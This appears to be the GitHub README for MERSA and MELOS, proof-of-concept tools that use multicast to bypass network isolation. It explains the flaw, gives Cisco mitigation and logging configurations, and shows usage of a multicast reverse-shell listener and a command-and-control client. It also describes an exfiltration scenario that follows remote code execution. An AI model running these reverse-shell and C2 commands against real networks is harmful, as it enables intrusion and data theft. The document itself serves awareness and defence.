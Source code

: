 # Multicast Encrypted RSA (MERSA)
```csharp
   o       .                         o      .
                      .
  .   dBBBBBBBb dBBBBP dBBBBBb  dBBBBP dBBBBBb 
     dB'   'dP dB     dB  dBP dBP'         'BB 
    dB'dB'dB' dBBP   dBBBBP' 'BBBBb   dBBBPBB'  .
   dB'dB'dB' dBP    dBP  BB     dBP  dBP   BB' 
  dB'dB'dB' dBBBBP dBP  dB  dBBBBP' 'dBBBBBB' 
     .                                          
                                .
         .         o    
                                        .
  .      |      
       --o--      MERSA-FULLY      .
         |                                   o
 o             .
```

# Overview

 - [Documentation](./README.md#About)
 - [PoC Testing Tools](./PoC/)
 - [Configuration Solutions](./README.md#Patching)
 - [Program Usage Example](./README.md#MELOS-Usage)
 - [Additional Information](./README.md#Additional-Information)

# About

Multicast Encrypted RSA (MERSA) and Multicast Encrypted Low Operations Shell (MELOS) are PoC tools that demonstrate how multicast can be used to undermine network security policies and bypass client isolation/AP isolation restrictions.

Multicast-Tunneling is a vulnerability that is not specific to any vendor and affects networks without the appropriate controls for multicast traffic. It occurs when multicast packets from one network segment can reach restricted servers or devices on another segment. Multicast uses protocols IGMP (L3) or PIM (L2) to route packets and works above the Internet Protocol (IP). This enables a connection between two unintended network segments that can be utilized for lateral movement, aiding in the extraction of information or the control over devices across the network.

Multicast traffic restrictions are often neglected, creating a potential risk that could go unnoticed. The primary goal of MERSA is to highlight the potential vulnerabilities imposed by multicast. The best way to minimize these risks, is to disable it on the restricted interfaces in router's configuration files. In the case that disabling multicast is not feasible, extra measures can be taken to ensure multicast traffic is contained.

# Patching

> Configuring your network with VLANs and proper configurations can mitigate most of the risks associated with multicast.

> Please consult your network administrator prior to making any changes to router configurations. Making unscheduled modifications to the configurations can have adverse effects on the services or devices operating within the network.

**How to disable multicast for Cisco IOS XE 3.2SE+**

> We advise disabling multicast on the interfaces that face public access points. This helps prevent potential issues that may arise from globally disabling multicast. 

```ruby
! Disable all multicast traffic
router(config)# no ip multicast-routing
router(config)# no ip igmp
router(config)# no ip pim

! Disable multicast on a specific interface
router(config)# interface gigabitethernet 0/0/0
router(config-if)# no ip multicast-routing
router(config-if)# no ip igmp
router(config-if)# no ip pim
router(config-if)# end
```

**How to log multicast interactions for Cisco IOS XE Everest 16.6.1+**
> Enabling logs can assist the incident response team in investigating a breach.
```ruby
! Permit a range for allowed multicast channels
router(config)# ip igmp profile 40
router(config-igmp-profile)# permit
router(config-igmp-profile)# range 224.0.0.1 233.255.255.255
router(config-igmp-profile)# exit
router(config)# interface gigabitethernet 0/0/0
router(config-if)# switchport
router(config-if)# ip igmp filter 40
router(config-if)# end

! Dedicate percentage of memory for caching multicast
router(config-mdns)# cache-memory-max 10

! Enable explicit tracking of hosts, groups, and channels for IGMPv3
! When explicit tracking is enabled, the device will use more memory
router(config)# ip multicast-routing
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-dense-mode 
router(config-if)# ip igmp version 3 
router(config-if)# ip igmp explicit-tracking
router(config-if)# end

```

**How to prevent unnecessary forwarding of multicast packets Cisco IOS XE 3.2SE+**
> Network switches may be unaware of which network devices are part of multicast groups, and which are not. It may end up forwarding multicast traffic to devices that do not need it, which takes up network bandwidth and device processing power, slowing the entire network down. IGMP Snooping allows the switch to follow communications and stop forwarding packets when unnecessary.
```ruby
! Enable IGMP Snooping Globally
router(config)# ip igmp snooping
! Enable IGMP Snooping for a VLAN
router(config)# ip igmp snooping vlan 10

! PIM Sparse Mode (PIM-SM) will reduce the spread of multicast traffic
router(config)# interface gigabitethernet 0/0/0
router(config-if)# ip pim sparse-mode
router(config-if)# end
```

# MELOS Usage

**Start 'MELOS.py -l' reverse shell on target**
> Changing the password will allow MELOS to run on multiple hosts at the same time.

```csharp
$ python3 melos.py --listen --password M3L05

    =[ Awaiting on 224.0.0.251:10020    ]

[10.200.40.5:55000] whoami
[10.200.40.5:55000] ifconfig
[10.200.40.5:55000] ls

```

**Start 'MELOS.py -c' command and control client**
> The password must be the same as the client otherwise the commands will not be decrypted.

```csharp
$ python3 melos.py --cmd --password M3L05

    =[ MELOS C2 224.0.0.251:10050       ]
    
melos@224.0.0.251:10050 $ whoami
     =[ Packet From 10.250.60.15:55000  ]
root
```

# Additional Information

## Attack Scenario
> Imagine that you are in a network that hosts a webserver, but due to network restrictions, you cannot interact with it or observe its traffic. By launching an attack on the external webpage and acquiring code execution, you can utilize MELOS to gain a reverse shell. This will enable you to exfiltrate files and data through the network to your device without being denied by the current policies. The use of MELOS and MERSA will depend on factors such as the network type, current configurations, and the number of security layers in place. However, if remote code execution is already established, it's probable that multicast has been not considered in the network's security measures.

## Tremeris Kynigoskylo (Three Headed Hound)
> MERSA is a less potent iteration of the Tremeris Kynigoskylo (TK-PoC) software developed by 0xFNDH. MERSA poses a significantly lower risk and can be detected through various network intrusion detection systems and network monitoring applications. However, TK-PoC was created to covertly extract files from internal networks without being detected or displaying any unusual activity. MERSA and MELOS are proof-of-concept and do NOT demonstrate the full exploitability of multicast. If your goal is to maximize the effective security of your network, please take into consideration how protocols like multicast move throughout your network.

> This research is designed to raise awareness of the potential risks associated with IGMP and multicast. 

## Resources

> [Cisco Multicast Commands](https://www.cisco.com/c/en/us/td/docs/switches/lan/catalyst3850/software/release/16-12/command_reference/b_1612_3850_cr/ip_multicast_routing_commands.html)

> [Cloudflare IGMP Introduction](https://www.cloudflare.com/learning/network-layer/what-is-igmp/)

> [IANA Multicast Addresses](https://www.iana.org/assignments/multicast-addresses/multicast-addresses.xhtml)
